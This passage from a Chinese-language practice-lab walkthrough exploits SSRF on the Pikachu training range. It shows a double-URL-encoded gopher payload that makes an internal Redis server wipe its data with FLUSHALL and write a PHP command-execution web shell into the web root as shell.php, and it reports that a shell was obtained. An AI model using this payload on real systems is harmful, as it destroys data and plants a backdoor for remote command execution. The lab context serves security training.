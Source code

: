     ​![image](assets/image-20240921003140-pl5ghty.png)​
9. 拿着上方payload进行二次URL编码

    ```python
    gopher%3a%2f%2f172.20.10.4%3a6379%2f_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252421%250D%250A%250A%250A%253C%253F%253D%2560%2524_GET%255Bcmd%255D%2560%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2fvar%2fwww%2fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
    ```
10. 拿着payload到pikachu靶场SSRF使用。

     ​![image](assets/image-20240921003418-9ww4qj5.png)​
11. 到redis主机web目录查看有没有写成功（真实环境看不了）

     ![image](assets/image-20240921003055-yykogn6.png)​
12. 拿到shell，但不知为何Ant连接不了

